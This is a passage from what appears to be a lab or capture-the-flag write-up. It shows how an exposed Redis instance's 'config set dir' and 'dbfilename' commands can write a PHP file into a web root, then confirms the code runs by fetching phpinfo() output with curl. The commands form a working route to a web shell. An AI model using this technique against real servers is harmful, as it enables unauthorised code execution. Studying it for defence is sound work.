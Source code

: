 ```sh
127.0.0.1:6379> config set dir /var/www/html
OK
127.0.0.1:6379> config set dbfilename testing.php
OK
127.0.0.1:6379> set test "<?php phpinfo(); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
```

Now to test that the exploit works. Looks like it does. Below is the output from the ```phpinfo()``` function. Now it's time to see if I can take this a step further and continue to push the boundries of this.

```sh
player@33c984ced50f:~$ curl --output - http://localhost/testing.php
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�u�_used-mem�x
 aof-preamble��� test <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "
DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px #cc
c;}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px
 5px;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;
}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
</style>
<title>PHP 7.3.19-1~deb10u1 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NO
FOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<table>
<tr class="h"><td>
<a href="http://www.php.net/">
```
